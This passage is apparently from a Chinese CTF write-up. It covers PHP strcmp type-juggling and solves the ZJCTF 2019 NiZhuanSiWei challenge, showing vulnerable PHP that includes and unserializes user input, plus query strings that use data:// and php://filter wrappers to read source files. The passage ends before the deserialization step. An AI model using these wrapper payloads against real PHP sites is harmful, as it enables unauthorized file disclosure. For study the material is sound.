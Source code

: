 ​	参数 str1第一个字符串。str2第二个字符串。如果 str1 小于 str2 返回 < 0； 如果 str1 大于 str2 返回 > 0；如果两者相等，返回 0。

​	可知，传入的期望类型是字符串类型的数据，但是如果我们传入非字符串类型的数据的时候，这个函数将会有怎么样的行为呢？实际上，当这个函数接收到了不符合的类型，这个函数将发生错误，但是在5.3之前的php中，显示了报错信息后，将return 0。

​	也就是说，虽然报错了，但还是判定其相等。

​	还有用POST请求时，需要添加媒体类型信息：``Content-Type: application/x-www-form-urlencoded``，不然无法POST请求。(这个不是自动有的吗？以前也没自己加过，以后注意)

### [ZJCTF 2019]NiZhuanSiWei

```
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

**file_get_contents($text, 'r'):** 读取$text的内容，将其放入一个字符串中。

**preg_math():**匹配字符串。(正则匹配)

+ 这里需要让$text输入 ”welcome to the zjctf“ 传入文件中才能进行后面的步骤，可以使用``data://``伪协议来传参。

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY= (这里的字符串是welcome...的base编码)
```

通过第一个if语句。

+ 可以看到第二个if语句不能使用flag关键字，而后面有提示useless.php文件，所以我们要想办法读取到它。

  用``php://filter``协议来读取：

  ```
  ?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=php://filter/read=convert.base64-encode/resource=useless.php
  ```

  读取到useless.php的base64编码内容。

```
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```